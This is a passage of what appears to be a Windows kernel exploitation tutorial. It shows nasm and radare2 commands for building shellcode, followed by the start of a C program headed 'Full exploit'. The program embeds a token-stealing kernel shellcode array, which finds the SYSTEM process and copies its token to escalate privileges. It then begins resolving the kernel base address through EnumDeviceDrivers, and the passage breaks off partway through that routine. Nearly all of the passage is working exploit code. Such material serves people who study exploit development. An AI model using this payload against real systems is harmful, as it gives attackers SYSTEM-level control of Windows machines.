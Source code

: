 convert it into shellcode 

```
nasm shellcode.asm -o shellcode.bin -f bin
radare2 -b 32 -c 'pc' ./shellcode.bin 
```

perfect now we have our shellcode ready 

## Full exploit


```c
#include <stdio.h>
#include <Windows.h>
#include <Psapi.h>
#include <stdlib.h>
#include <stdint.h>

#define QWORD ULONGLONG

#define _BUFFER_SIZE 256
const uint8_t sc[_BUFFER_SIZE] = {
  0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xc0, 0x4d,
  0x8b, 0x80, 0xd8, 0x01, 0x00, 0x00, 0x49, 0x81, 0xe8, 0xd8,
  0x01, 0x00, 0x00, 0x4d, 0x8b, 0x88, 0xd0, 0x01, 0x00, 0x00,
  0x49, 0x83, 0xf9, 0x04, 0x75, 0xe5, 0x4d, 0x8b, 0x88, 0x48,
  0x02, 0x00, 0x00, 0x80, 0xe1, 0xf0, 0x4c, 0x89, 0x88, 0x48,
  0x02, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01,
  0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x66,
  0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x8a, 0x68,
  0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78, 0x01, 0x00, 0x00,
  0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8b, 0xaa,
  0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f, 0x01, 0xf8, 0x48,
  0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};



uint64_t GetKernelBaseAddress()
{
    ULONG_PTR pKernelBaseAddress = 0;
    LPVOID* lpImageBase = NULL;
    DWORD dwBytesNeeded = 0;

    if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
        printf("[-] Failed to calculate bytes needed for device driver entries");
        return -1;
    }

    if (!(lpImageBase = (LPVOID*)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
```
